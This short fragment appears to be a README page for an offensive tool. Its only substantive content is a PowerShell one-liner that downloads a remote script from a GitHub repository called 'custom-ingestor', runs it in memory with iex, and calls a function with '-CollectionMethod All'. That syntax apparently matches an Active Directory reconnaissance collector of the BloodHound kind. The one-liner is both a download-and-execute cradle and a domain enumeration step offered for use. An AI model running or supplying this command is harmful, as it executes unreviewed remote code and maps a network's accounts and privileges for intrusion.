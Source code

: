 ### Run this script with

```
iex(new-object net.webclient).downloadstring("https://raw.githubusercontent.com/f3ci/custom-ingestor/master/2.ps1");lol -CollectionMethod All
```
